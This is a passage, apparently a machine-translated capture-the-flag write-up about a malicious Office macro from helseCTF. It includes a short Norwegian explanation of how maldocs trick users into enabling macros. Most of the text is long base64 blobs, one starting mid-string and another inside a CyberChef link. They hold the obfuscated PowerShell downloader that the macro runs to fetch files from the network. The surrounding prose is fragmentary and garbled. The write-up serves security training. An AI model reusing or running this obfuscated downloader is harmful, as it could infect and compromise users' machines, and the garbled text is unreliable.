CUUFHVUFYUUFvQUNJQWV3QTBBSDBBZXdBeUFIMEFld0F4QUgwQWV3QXdBSDBBZXdBekFIMEFJZ0FnQUMwQVpnQWdBQ2NBYkFBbkFDd0FKd0JQQUM0QVJnQnBBQ2NBTEFBbkFFVUFiUUF1QUVrQUp3QXNBQ2NBWlFBbkFDd0FKd0JUQUhrQWN3QlVBQ2NBS1FBcEFEc0FKQUJoQUdnQVFnQkZBRzBBVndCd0FFb0FJQUE5QUNBQUpBQlFBSElBUXdCMUFISUFPUUJzQUhrQVlRQWdBQ3NBSUFBa0FFOEFkUUJTQUhFQVlnQTdBQ1FBY0FCekFFMEFNQUJGQUZRQVpRQWdBRDBBSUFBa0FFRUFUUUJzQUZrQVFnQWdBQ3NBSUFBa0FHY0FWZ0JJQUZjQU9BQlpBRWdBVGdCQ0FIWUFPd0FrQUdNQVZBQXlBRXdBWVFBZ0FEMEFJQUFvQUNnQUpBQklBRThBVFFCRkFDQUFLd0FpQUVrQVRBQnpBRU1BTXdCTkFIZ0FWUUJxQUZvQWRnQnpBSFlBU1FCTUFITUFNQUEwQUV3QVpRQlhBSEVBV1FCVkFFTUFjUUJKQUV3QWN3QlZBRWNBTlFCQkFHY0FlQUIyQUVzQU5nQkpBRXdBY3dCT0FISUFhZ0JLQUdJQVF3QnpBSFVBU1FCTUFITUFiQUJaQUc0QWJRQm9BSGtBVmdCT0FFRUFlZ0FpQUNBQUtRQXVBRklBUlFCd0FHd0FRUUJEQUVVQUtBQWdBQ0lBU1FCTUFITUFJZ0FzQUZzQWN3QgowQUZJQWFRQk9BR2NBWFFCYkFHTUFTQUJoQUZJQVhRQTVBRElBS1FBcEFEc0FKQUJUQUhZQVZnQkNBR2tBYlFCV0FFNEFWUUFnQUQwQUlBQWtBRmtBTVFCNUFGZ0Fad0J4QUNBQUt3QWdBQ1FBVHdCQkFFMEFUQUJrQUZvQVdRQTdBQ1FBY2dCUkFHa0FaQUExQUNBQVBRQWdBQ1FBWXdCVUFESUFUQUJoQUNzQUlnQjVBRTBBTWdCbEFHOEFiUUI0QUM0QWFnQndBR2NBSWdBN0FDUUFWd0ExQUVrQVJnQldBRWNBYkFCQ0FDQUFQUUFnQUNRQU1nQTVBRFlBU0FCWEFIY0FJQUFyQUNBQUpBQkxBRWNBYmdCbEFGY0FNZ0JXQUhNQU9RQTdBRWtBUmdBb0FIUUFaUUJ6QUhRQUxRQmpBRzhBVGdCdUFFVUFZd0IwQUdrQWJ3QnVBQ0FBTFFCeEFGVUFhUUJsQUhRQUlBQWtBRWNBT0FBekFHNEFZZ0IwQURVQU5RQjFBQ2tBSUFCN0FDUUFiUUJOQUdZQVl3QlRBRm9BZVFBNUFGUUFNd0E2QURvQUlnQmpBSElBUlFCQkFIUUFZQUJGQUdBQVpBQkpBR0FBVWdCZ0FFVUFRd0JnQUZRQVlBQnZBRklBZVFBaUFDZ0FJQUFrQUdNQVZBQXlBRXdBWVFBcEFEc0FkQUJ5QUhrQWV3Qm1BRThBVWdCbEFHRUFRd0JvQUNBQUtBQWtBSE1BYndCeUFGa0FaZ0F3QUhvQWJ3QnZBQ0FBYVFCdUFDQUFKQUJUQURJQWVBQTNBRVFBV1FCMkFEa0FVUUF1QUZJQVpRQndBR3dBUVFCREFFVUFLQUFuQUVjQWNnQmhBRzBBVFFCaEFGSUFiQUI1QUNjQUxBQW5BQzRBWlFCNEFFVUFKd0FwQUM0QWN3QndBR3dBU1FCVUFDZ0FXd0JEQUVnQVlRQlNBRjBBTmdBMEFDa0FMZ0JUQUhBQWJBQnBBSFFBS0FCYkFHTUFhQUJCQUZJQVhRQXhBRElBTkFBcEFDNEFjZ0JGQUZBQWJBQmhBR01BWlFBb0FDUUFRZ0J2QUVrQU5RQlJBQ3dBSkFCMkFFMEFVUUI0QUdzQUtRQXBBSHNBYVFCbUFDZ0FKQUJpQUdjQWJ3QnhBSEFBV2dBNkFEb0FSUUI0QUdrQWN3QjBBSE1BS0FBa0FISUFVUUJwQUdRQU5RQXBBQ2tBZXdCaUFISUFaUUJoQUdzQWZRQkpBRzRBZGdCdkFHc0FaUUF0QUZjQVpRQmlBRklBWlFCeEFIVUFaUUJ6QUhRQUlBQXRBRlVBY2dCcEFDQUFKQUJ6QUc4QWNnQlpBR1lBTUEKQjZBRzhBYndBZ0FDMEFUd0IxQUhRQVJnQnBBR3dBWlFBZ0FDUUFjZ0JSQUdrQVpBQTFBSDBBY3dCMEFHRUFjZ0IwQUNBQUpBQnlBRkVBYVFCa0FEVUFPd0FnQUZNQWRBQmhBSElBZEFBdEFGTUFiQUJsQUdVQWNBQWdBQzBBY3dBZ0FERUFPd0J5QUVVQVRRQnZBRllBUlFBdEFHa0FWQUJsQUUwQUlBQXRBRklBWlFCakFGVUFVZ0JUQUdVQUlBQXRBSEFBWVFCMEFHZ0FJQUFnQUNnQUpBQklBRzhBVFFCbEFDc0FJZ0JjQUNJQUt3QWtBR01BVkFBeUFFd0FZUUF1QUhJQVpRQndBR3dBWVFCakFHVUFLQUFrQUVnQWJ3QnRBR1VBS3dBaUFGd0FJZ0FzQUNRQWRRQjBBR3dBVEFCRkFHd0FLUUF1QUhNQWNBQnNBR2tBZEFBb0FGc0Fjd0IwQUhJQWFRQnVBR2NBWFFCYkFHTUFhQUJoQUhJQVhRQTVBRElBS1FCYkFEQUFYUUFwQURzQWZRQmpBR0VBZEFCakFHZ0Fld0JqQUd3QVpRQmhBSElBTFFCb0FHa0Fjd0IwQUc4QWNnQjVBRHNBWlFCakFHZ0Fid0FnQUNJQVJBQnZBQ0FBYndCeUFDQUFaQUJ2QUNBQWJnQnZBSFFBTEFBZ0FIUUFhQUJsQUhJQVpRQWdBR2tBY3dBZ0FHNEFid0FnQUhRQWNnQjVBQzRBSWdCOUFEc0FZd0JzQUdVQVlRQnlBQzBBYUFCcEFITUFkQUJ2QUhJQWVRQTdBSDBBWlFCc0FITUFaUUI3QUQwQUlBQmhBRVFBWkFBdEFGUUFXUUJRQUVVQUlBQXRBR0VBVXdCekFFVUFiUUJpQUV3QVdRQk9BR0VBYlFCRkFDQUFKd0JRQUhJQVJRQnpBR1VBYmdCMEFHRUFkQUJKQUc4QVRnQkdBRklBWVFCTkFFVUFWd0J2QUhJQVN3QW5BRHNBV3dCVEFIa0FVd0JVQUVVQVRRQXVBSGNBYVFCT0FFUUFid0JYQUZNQUxnQnRBR1VBY3dCVEFHRUFSd0JsQUdJQVR3QllBRjBBT2dBNkFGTUFhQUJ2QUZjQUtBQWlBRVFBSUFCaUFHd0FhUUJ5QUNBQWFRQjBBSFFBYWdBZ0FHWUFaUUJ6QUhRQUlBQnZBR2NBSUFCbUFHRUFjZ0IwQUN3QUlBQjFBSFFBWlFCdUFDQUFhUUJ1QUhRQVpRQnlBRzRBWlFCMEFIUUFJQUJ2QUdjQUlBQmlBR0VBY2dCMEFDNEFMZ0F1QUNJQUtRQTdBR01BYkFCbEFHRUFjZ0F0QUdnQWFRQnpBSFFBYndCeUFIa0FPCndCOUFDUUFWUUJLQUhBQVlnQkhBSEFBTVFCV0FGa0FJQUE5QUNBQUpBQXlBRTBBWWdCb0FHd0FlUUF4QUNBQUt3QWdBQ1FBTXdCV0FGY0FPQUJNQUdVQU53QnpBR1VBY2dBN0FDUUFiUUExQUdjQU1nQkVBRlFBZFFBZ0FEMEFJQUFrQUU4QU5nQnBBSEFBTWdCT0FGa0FNZ0EwQUNBQUt3QWdBQ1FBWkFCVkFFOEFhZ0J0QURzQQoKCg) 来解密文本，并找到以下内容:

该程序下载了一组图像，如果我们访问所有这些图像，我们会找到旗帜。


宏编号 1 的标记—由 [helseCTF](http://helsectf.no)

## Akriver for på skegg Ya RLY

```
Skadelige vedlegg benytter i all hovedsak enten exploits, eller makroer for å få kjørt payloaden sin. Det vanligste her er makroer da disse offisielt er en “feature”, ikke en sårbarhet. For å få kjørt makroen kreves det at bruker godtar kjøring av makroer, og dokumentene har som regel noen social-engineeringtriks for å lure brukeren til å gjøre dette. F.eks. dokumenttittel som “lønnsjustering”, eller et bilde inni om at makroer må aktiveres for at innholdet skal vises riktig.
```


Maldoc 的屏幕打印—作者

这一次也是如此。打开文档找到宏，调试运行它。寻找创造的价值，因为这是在电脑上创造某种实体的最有可能的方式。



宏调试的输出—按作者

我像以前一样解密了 [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Decode_text('Europa%203%20(29001)')&input=SkFCcUFFWUFjUUJVQUc4QVdBQjFBSGtBVFFBZ0FEMEFJQUFrQUhNQVZ3QXlBR3NBVkFBMUFFRUFaUUFnQUNzQUlBQWtBREFBZEFCYUFFWUFNZ0JHQUhZQWJnQnFBSEFBT3dBa0FIUUFRd0JyQUU0QWFnQTBBSFlBSUFBOUFDQUFLQUFuQURFQWFBQnVBSElBWlFCMUFHa0FaQUJ1QUdJQVp3QnFBREVBYUFCdUFISUFaUUIxQUdrQVpBQnVBR0lBWndCcUFERUFhQUJ1QUhJQVpRQjFBR2tBWkFCdUFHSUFad0JxQURFQUp3QXBBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BQ0lBYUFCdUFISUFaUUIxQUdrQVpBQnVBR0lBWndCcUFDSUFMQUFpQUM0QUlnQXBBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BRnNBY3dCMEFISUFhUUJ1QUdjQVhRQmJBR01BYUFCaEFISUFYUUEyQURFQUxBQWlBSElBYndCbUFHd0Fid0F1QUdNQWJ3QnRBQ0lBS1FBN0FDUUFSZ0JsQUZnQVF3QlhBRTRBTmdCRkFIRUFRd0JxQUhnQWJnQm1BR0VBZVFCU0FDQUFQUUFnQUNRQVdnQkJBRW9BVHdCdEFFNEFOZ0JSQUdNQVNRQkRBRWNBTWdCWkFIb0FJQUFyQUNBQUpBQm1BR1lBUVFCU0FESUFZZ0J4QUZZQWRRQkJBRFFBT3dBa0FFb0FUZ0J6QUhRQU13QTVBR3NBZGdCd0FFNEFJQUE5QUNBQUpBQmhBRFlBU2dCWEFEUUFXQUJRQURjQVJRQWdBQ3NBSUFBa0FIa0FkUUJOQURrQU9RQkRBRmNBT3dCekFGWUFJQUFnQUNnQUp3QXdBQ2NBS1FBZ0FDZ0FXd0IwQUhrQVVBQmxBRjBBS0FBaUFIc0FOQUI5QUhzQU1nQjlBSHNBTVFCOUFIc0FNQUI5QUhzQU13QjlBQ0lBSUFBdEFHWUFJQUFuQUdNQVZBQnZBQ2NBTEFBbkFFOEFMZ0JFQUVrQWNnQmxBQ2NBTEFBbkFFVUFiUUF1QUVrQUp3QXNBQ2NBVWdCNUFDY0FMQUFuQUZNQWVRQnpBRlFBSndBcEFDa0FPd0FrQUZRQWNRQlNBRGNBVmdCcUFDQUFQUUFnQUNRQVlnQXpBRTRBTmdBd0FDQUFLd0FnQUNRQVVBQkJBRzBBUWdBMUFEc0FKQUJtQUdZQVFRQlNBRElBWWdCeEFDQUFQUUFnQUNnQUtBQW5BR2dBZEFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW4KQUNjQUt3QW5BSFFBY0FCekFEb0FjUUJmQUhnQVBRQnhBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BQ2NBS3dBbkFHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FjUUJmQUhnQVBRQnhBR2dBWlFBbkFDc0FKd0JzQUhNQUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QmxBR01BSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndCMEFDY0FLd0FuQUdZQUxnQnVBRzhBSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0Fid0FuQUNzQUp3QlVBSFFBSndBcEFDc0FKd0J4QUY4QWVBQTlBSEVBWWdBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdrQUp3QXJBQ2NBYkFCa0FDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBWlFCeUFDY0FLd0FvQUNjQVRBQW5BQ3NBSndCcEFIUUFLUUFvQUc4QUp3QXJBQ2NBVkFCMEFDY0FLUUFyQUNjQWNRQmZBSGdBUFFCeEFERUFKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QmZBRFFBWVFBbkFDc0FKd0JsQURBQU9BQmxBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQU53QW5BQ3NBSndBMEFEQUFNd0JqQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FZZ0EzQURFQUp3QXJBQ2NBTUFBeEFDY0FLd0FvQUNjQUp3QXJBQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQU1nQm1BQ2NBS3dBb0FDY0FUQUFuQUNzQUp3QnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FOd0EwQUNjQUt3QW5BREFBT0FCa0FDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FDY0FLd0FuQUc4QVZBQjBBQ2NBS1FBckFDY0FOZ0FuQUNzQUp3QmpBR1FBTVFCbUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBWkFBbkFDc0FKd0F5QURFQUp3QXJBQ2NBT1FBCnVBR29BSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0FKd0FyQUNjQWJ3QlVBSFFBSndBcEFDc0FKd0J3QUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQVp3QW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRUFBSndBckFDY0FhQUIwQUhRQUp3QXJBQ2NBY0FCekFEb0FKd0FyQUNnQUp3QW5BQ3NBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QnhBRjhBZUFBOUFIRUFKd0FyQUNnQUp3QW5BQ3NBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QnhBRjhBZUFBOUFIRUFhQUJsQUd3QUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QnpBR1VBSndBckFDY0FZd0IwQUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FaZ0F1QUc0QUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndCdkFDY0FLd0FuQUhFQVh3QjRBRDBBY1FCaUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FhUUJzQUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQUp3QXJBQ2NBWkFCbEFISUFKd0FyQUNjQWNRQmZBSGdBUFFCeEFESUFYd0ExQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQVpRQTNBQ2NBS3dBbkFHVUFOZ0F3QURFQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0EzQUdZQUp3QXJBQ2NBWXdCbUFEa0FZd0FuQUNzQUtBQW5BRXdBSndBckFDY0FhUUIwQUNrQUtBQW5BQ3NBSndCdkFGUUFkQUFuQUNrQUt3QW5BRGtBWWdBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUdNQUp3QXJBQ2NBTUFBNEFESUFaQQpBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BRFlBTUFBekFETUFKd0FyQUNjQU5nQXdBRE1BSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndBbkFDc0FKd0EzQUdNQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QXdBR01BT0FBdUFHb0FKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QndBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQVp3QkFBQ2NBS3dBbkFHZ0FkQUFuQUNzQUp3QjBBSEFBY3dBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRG9BSndBckFDY0FjUUJmQUhnQVBRQnhBSEVBWHdCNEFEMEFjUUJvQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QnNBSE1BSndBckFDY0FaUUJqQUhRQVpnQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQW5BQ3NBSndCdkFGUUFkQUFuQUNrQUt3QW5BQ2NBS3dBbkFDNEFiZ0J2QUhFQVh3QjRBRDBBY1FBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR0lBSndBckFDY0FhUUJzQUdRQUp3QXJBQ2NBWlFCeUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FjUUJmQUhnQVBRQnhBRE1BWHdBbkFDc0FKd0EwQUdJQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QTBBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBTWdBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BR1FBTndBMkFDY0FLd0FvQUNjQVRBQW5BQ3NBSndCcEFIUUFLUUFvQUc4QUp3QXJBQ2NBVkFCMEFDY0FLUUFyQUNjQU13Qm1BQ2NBS3dBb0FDY0FUQUJwQUhRQUsKUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQU9BQmpBQ2NBS3dBbkFHSUFOZ0JrQUdVQUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBbkFDc0FKd0JsQURrQU5RQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BRFVBSndBckFDY0FNZ0F4QUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQVpRQW5BQ3NBSndCa0FHWUFKd0FyQUNjQU5RQTNBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BQ2NBS3dBbkFHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FPQUJtQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQU9RQXdBR0VBSndBckFDY0FNZ0F1QUdvQWNBQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFDY0FLd0FuQUdjQVFBQm9BQ2NBS3dBb0FDY0FKd0FyQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBZEFCMEFDY0FLd0FuQUhBQWN3QW5BQ3NBS0FBbkFDY0FLd0FuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRG9BY1FCZkFIZ0FQUUJ4QUNjQUt3QW5BSEVBWHdCNEFEMEFjUUJvQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QnNBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQUp3QXJBQ2NBY3dCbEFHTUFkQUJtQUNjQUt3QW9BQ2NBVEFBbkFDc0FKd0JwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FMZ0J1QUc4QWNRQmZBSGdBUFFCeEFDY0FLd0FuQUdJQWFRQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR3dBWkFBbkFDc0FKd0JsQUhJQWNRQmZBSGdBUFFCeEFEUUFKd0FyQUNnQUp3Qk1BR2tBZEFBcEFDZ0Fid0FuQUNzQUp3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QmZBR1lBCkp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndBNEFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FNd0JsQURBQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QmtBQ2NBS3dBbkFESUFPQUFuQUNzQUp3QTNBRFFBTkFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFDY0FLd0FuQUZRQWRBQW5BQ2tBS3dBbkFHWUFKd0FyQUNjQU53QmhBR1VBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndCbUFEWUFaQUJpQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQVpRQXdBR1lBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndBd0FEUUFKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QmxBREFBSndBckFDY0FNZ0JsQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3Qm1BQ2NBS3dBbkFEa0FaUUFuQUNzQUp3QXVBR29BY0FBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BR2NBUUFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR2dBSndBckFDY0FkQUIwQUhBQUp3QXJBQ2NBY3dBNkFIRUFYd0I0QUQwQWNRQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BQ2NBS3dBbkFIRUFYd0I0QUQwQWNRQm9BR1VBSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0Fid0JVQUhRQUp3QXBBQ3NBSndCc0FDY0FLd0FuQUhNQVpRQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BR01BZEFCbUFDY0FLd0FuQUM0QWJnQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDcwpBSndCdkFGUUFkQUFuQUNrQUt3QW5BRzhBY1FCZkFIZ0FQUUJ4QUdJQUp3QXJBQ2dBSndBbkFDc0FKd0JNQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndCcEFHd0FaQUFuQUNzQUtBQW5BRXdBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdVQWNnQW5BQ3NBSndCeEFGOEFlQUE5QUhFQU5RQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFGOEFaZ0FuQUNzQUp3QmpBR1FBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBNUFEVUFZd0FuQUNzQUtBQW5BRXdBSndBckFDY0FhUUIwQUNrQUtBQnZBRlFBZEFBbkFDa0FLd0FuQURJQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndCbEFHUUFaUUEwQURBQUp3QXJBQ2NBTlFBd0FDY0FLd0FvQUNjQUp3QXJBQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQU5RQW5BQ3NBS0FBbkFDY0FLd0FuQUV3QWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFEa0FKd0FyQUNjQVl3QTVBRElBWkFBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUJ2QUZRQWRBQW5BQ2tBS3dBbkFETUFaQUFuQUNzQUp3QTBBRGNBSndBckFDY0FZd0E0QUdJQUp3QXJBQ2dBSndBbkFDc0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBekFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBTkFBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdZQUp3QXJBQ2NBWVFBekFDY0FLd0FuQUM0QWFnQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BSEFBWndBbkFDa0FMZ0FpQUhJQVlBQmxBRkFBWUFCTUFHRUFZQUJEQUVVQUlnQW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBTEFBa0FGSUFSUUJKQUYKVUFRZ0JyQUc0QUtRQXRBRklBWlFCd0FHd0FZUUJqQUVVQUtBQW5BSEVBWHdCNEFEMEFjUUFuQUN3QVd3QnpBSFFBVWdCcEFFNEFad0JkQUZzQVl3Qm9BR0VBVWdCZEFEUUFOd0FwQUNrQU93QlRBSFlBSUFBZ0FDZ0FKd0JuQUc0QWNnQmxBR29BWmdCdUFHb0FiQUJyQUdVQUp3QXBBQ0FBS0FCYkFIUUFlUUJRQUdVQVhRQW9BQ0lBZXdBMEFIMEFld0F5QUgwQWV3QXhBSDBBZXdBd0FIMEFld0F6QUgwQUlnQWdBQzBBWmdBZ0FDY0FiQUFuQUN3QUp3QlBBQzRBUmdCcEFDY0FMQUFuQUVVQWJRQXVBRWtBSndBc0FDY0FaUUFuQUN3QUp3QlRBSGtBY3dCVUFDY0FLUUFwQURzQUpBQjBBRTRBWWdCdEFFY0FhUUEwQUVjQVNnQWdBRDBBSUFBa0FFc0FUUUJ2QUZvQVVnQlFBSG9BY1FCTEFDQUFLd0FnQUNRQVpnQm1BRUVBVWdBeUFHSUFjUUJD